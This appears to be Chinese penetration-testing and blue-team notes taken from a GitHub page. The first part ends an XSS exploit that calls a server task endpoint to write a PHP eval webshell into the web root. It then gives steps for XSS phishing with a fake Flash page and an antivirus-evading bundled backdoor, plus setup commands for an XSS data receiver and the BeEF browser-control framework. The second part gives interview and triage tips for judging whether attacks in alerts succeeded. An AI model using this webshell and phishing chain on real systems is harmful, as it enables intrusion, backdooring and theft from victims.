 ```
  data.shell='echo "<?php @eval($_POST[123]);?>" >C:/xp.cn/www/wwwroot/admin/localhost_80/wwwroot/1.php';
  $.post('/service/app/tasks.php?type=save_shell',data,function(res){
    poc();
  },'json');
}
save();

#XSS跨站-攻击利用-网络钓鱼
1、部署可访问的钓鱼页面并修改
2、植入XSS代码等待受害者触发
3、将后门及正常文件捆绑打包免杀
https://github.com/r00tSe7en/Fake-flash.cn

#XSS跨站-攻击利用-溯源综合
1、XSS数据平台-XSSReceiver
简单配置即可使用，无需数据库，无需其他组件支持
搭建：https://github.com/epoch99/BlueLotus_XSSReceiver-master
2、浏览器控制框架-beef-xss
只需执行JS文件，即可实现对当前浏览器的控制，可配合各类手法利用
搭建：docker run --rm -p 3000:3000 janes/beef

```





```
注意事项
不要乱发朋友圈，现场不要聊薪资问题，聊这个护网走的哪家。遇见问题去和项目经理沟通。

参加过护网（按照实际案例去说）
问用没用过安全产品
奇安信天眼，深信服nip 微步sip 长亭的雷池waf 谛听蜜罐。默安的幻阵蜜罐，安塞的ids 科莱的全流量 天融信的僵木蠕，长亭APT预警。

研判分析
怎么去判断是不是误报
①去跟甲方去沟通
②看请求数据包，明显带了恶意参数,
?Jsp=system（“whoami;”）
看回显包，文件上传误报，/www/bumen/员工信息表.docx
看回显包
success 文件位置  www.baidu.com/www/shell.jsp 


研判分析是否攻击成功  疑似攻击成功
主要是看回显包，whoami  ipconfig id
看回显包状态码 200 302 403 404 401 503
Yewu/administrator
IP 1.1.1.1
Dns 1.1.1.1
Root uid 0 
研判是直接写入的攻击
如果复现 去做镜像复现。
如果写入文件的，可以上服务器去排查是否存在这个文件。
Webshell的研判，看回显是否有上传路径
Success 文件上传位置 /www/20230410.jsp
文件上传失败 不允许上传脚本文件

判断是否是真实攻击
负载均衡 （去沟通是否为负载均衡）
10.1.1.1  文件上传 10.1.1.2（web官网）
10.1.1.1  命令执行 10.1.1.3（oa）
10.1.1.1  代码注入 10.1.1.4（业务系统）
```